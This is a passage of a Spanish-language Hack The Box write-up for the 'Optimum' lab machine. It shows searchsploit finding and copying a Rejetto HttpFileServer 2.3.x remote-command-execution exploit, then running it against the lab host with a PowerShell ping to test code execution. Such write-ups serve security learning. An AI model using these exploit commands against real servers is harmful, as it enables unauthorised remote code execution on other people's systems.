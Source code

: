 
buscamos un exploit relacionado a esta aplicacion

```bash
Optimum # ❯ searchsploit HttpFileServer
---------------------------------------------------------------- ---------------------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)     | windows/webapps/49125.py
---------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

descargamos el exploit

```bash
Optimum # ❯ searchsploit -m 49125      
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
File Type: Python script, UTF-8 Unicode text executable

Copied to: /home/abeljm/Documentos/Plataformas/htb/Optimum/49125.py
```
intento ver si puedo ejecutar comandos pero sin exito

![Untitled](/assets/images/2022-02-13-writeup-maquina-htb-optimum/Untitled%202.png)

pero veo que el creador del exploit da un ejemplo como ejecutar comandos poniendo la ruta de powershell

```bash
Optimum # ❯ python3 49125.py 10.129.142.187 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.14.70"
```

![Untitled](/assets/images/2022-02-13-writeup-maquina-htb-optimum/Untitled%203.png)

